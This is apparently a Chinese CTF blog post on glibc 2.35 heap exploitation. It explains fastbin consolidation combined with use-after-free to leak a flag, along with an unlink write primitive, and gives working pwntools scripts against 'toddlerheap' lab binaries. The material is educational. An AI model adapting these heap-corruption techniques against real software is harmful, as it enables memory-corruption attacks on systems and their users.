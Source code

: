 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35: tcache外的利用手法"
author: wsxk
date: 2025-7-23
comments: true
---
```


- [1. fastbin consolidation](#1-fastbin-consolidation)
  - [1.1 uaf + fastbin consolidation泄露flag](#11-uaf--fastbin-consolidation泄露flag)
    - [1.1.1 变种： uaf + fastbin consolidation + 防止consolidate的chunk](#111-变种-uaf--fastbin-consolidation--防止consolidate的chunk)
- [2. unlink](#2-unlink)


# 1. fastbin consolidation<br>
## 1.1 uaf + fastbin consolidation泄露flag<br>
场景是：<br>
```
1. 只能申请小于0x400的堆块，存放堆地址的空间只够16次
2. flag位于0x450的某个堆块中
3. 存在uaf漏洞
```
核心思路是**构造fastbin中有一个chunk A（与top chunk相邻），利用fastbin consolidation的机制 + uaf，使flag申请下来的0x450的chunk B的起始地址与A一样。打印flag即可**<br>

```python
from pwn import *

binary_path = "/challenge/toddlerheap_level1.0"
#binary_path = "./toddlerheap_level1.0"
p = process(binary_path)

def malloc(idx,size):
    p.sendline(b"malloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free(idx):
    p.sendline(b"free")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

def puts(idx):
    p.sendline(b"puts")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

for i in range(8):
    malloc(i,0x70)
for i in range(8):
    free(i)
# gdb.attach(p)
# pause()
p.sendline(b"read_flag")
puts(7)

p.interactive()
```

### 1.1.1 变种： uaf + fastbin consolidation + 防止consolidate的chunk<br> 
一般这种题目的核心思路是**控制chunk的总和满足某个条件**<br>
```python
from pwn import *

binary_path = "/challenge/toddlerheap_level2.1"
binary_path = "./toddlerheap_level2.1"

p = process(binary_path)

def malloc(idx,size):
    p.sendline(b"malloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free(idx):
    p.sendline(b"free")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

def puts(idx):
    p.sendline(b"puts")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

def calloc(idx,size):
    p.sendline(b"calloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return    

for i in range(8):
    malloc(i,0x70)
for i in range(8):
    free(i)
calloc(8,0x5b0)# fastbin consolidation: 7 equals 8
malloc(9,0x10) # in case of merging
calloc(10,0x5b0) # break the case
malloc(11,0x10) # in case of merging
free(10)
free(8)

# gdb.attach(p)
# pause()
p.sendline(b"read_flag")
puts(7)

p.interactive()
```

# 2. unlink<br>
`通过unlink能够解链，对某个地址的值进行改写`<br>
unlink的部分代码如下:<br>
```c
static void unlink_chunk (mstate av, mchunkptr p) {
 if (chunksize (p) != prev_size (next_chunk (p)))//检查一
    malloc_printerr ("corrupted size vs. prev_size");
  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;
  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))//检查二
    malloc_printerr ("corrupted double-linked list");
  fd->bk = bk;
  bk->fd = fd;
```
只要满足这个要求，我们就能够通过unlink完成对某些地址的值进行修改:<br>
前提条件是有`uaf漏洞，能够修改bk和fd的值`<br>

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>
